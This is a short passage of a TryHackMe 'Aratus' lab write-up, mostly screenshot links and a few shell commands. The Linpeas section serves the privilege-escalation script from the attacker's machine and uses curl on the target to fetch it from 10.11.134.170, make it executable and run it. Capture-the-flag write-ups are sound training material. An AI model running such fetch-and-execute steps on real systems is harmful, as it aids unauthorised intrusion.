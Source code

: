 ![Aratus](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Aratus/screenshots/20250510011619.png)

```bash
home dir*
```
![Aratus](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Aratus/screenshots/20250510011649.png)

```bash
ls -la /opt
```
![Aratus](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Aratus/screenshots/20250510011840.png)

## Linpeas
```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```
```bash
python3 -m http.server 80
```


```bash
curl http://10.11.134.170/linpeas.sh -o /tmp/linpeas.sh && chmod +x linpeas.sh  && ./linpeas.sh 
```

![Aratus](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Aratus/screenshots/20250510012304.png)
![Aratus](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Aratus/screenshots/20250510012335.png)